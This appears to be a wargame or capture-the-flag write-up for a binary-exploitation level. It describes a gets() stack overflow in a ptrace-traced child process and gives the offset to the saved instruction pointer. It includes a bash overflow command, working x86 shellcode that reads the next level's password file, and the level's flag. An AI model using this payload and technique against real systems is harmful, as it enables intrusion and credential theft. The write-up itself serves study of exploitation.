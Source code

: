 # Level4
There is a fork in the program, if the program is the child, it calls gets on a buffer. So we can overflow and write a shellcode on the stack.

We found out that the old eip of the child is at 156 bytes from the beginnig of the buffer.

So now we can write a shellcode in the env.
```bash
./level04 <<< `python -c 'print("a" * 156 + "\x01\x01\xff\xff")'`
```
The child is trace with ptrace, and the parent doesn't allow the child to use an exec call.
So the next problem is that we can not use our last shellcode...
Then we re-write a new shellcode from asm, which will open a file, read it and write its content.

```bash
 export SHELLCODE=`python -c 'print("\x90" * 0xffff + "\xeb\x35\x31\xc0\x31\xdb\x31\xd2\x31\xc9\xb0\x05\x5b\xcd\x80\x89\xc6\x89\xd9\x31\xd2\x31\xc0\x89\xf3\xb0\x03\x83\xec\x29\x8d\x0c\x24\xb2\x29\xcd\x80\xb0\x04\x31\xdb\xb3\x01\xb2\x29\xcd\x80\x31\xc0\xb0\x01\x31\xdb\xcd\x80\xe8\xc6\xff\xff\xff\x2f\x68\x6f\x6d\x65\x2f\x75\x73\x65\x72\x73\x2f\x6c\x65\x76\x65\x6c\x30\x35\x2f\x2e\x70\x61\x73\x73"
)'`
```

Flag is **3v8QLcN5SAhPaZZfEasfmXdwyR59ktDEMAwHF3aN**


